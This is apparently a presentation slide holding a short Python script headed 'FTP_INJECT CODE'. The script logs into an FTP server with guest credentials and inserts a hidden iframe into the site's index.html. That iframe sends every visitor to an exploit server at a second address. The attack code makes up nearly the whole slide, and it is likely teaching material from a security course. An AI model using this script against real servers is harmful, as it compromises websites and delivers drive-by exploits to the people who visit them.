

# FTP_INJECT CODE
if __name__ == "__main__":
    tgt_host = '192.168.95.179'
    username = 'guest'
    password = 'guest'
    conn = ftplib.FTP(tgt_host)
    conn.login(username, password)
    redirect_html = '<iframe src="http:\\\\10.10.10.112:8080\\exploit">' \'</iframe>'
    inject_page(conn, 'index.html', redirect_html)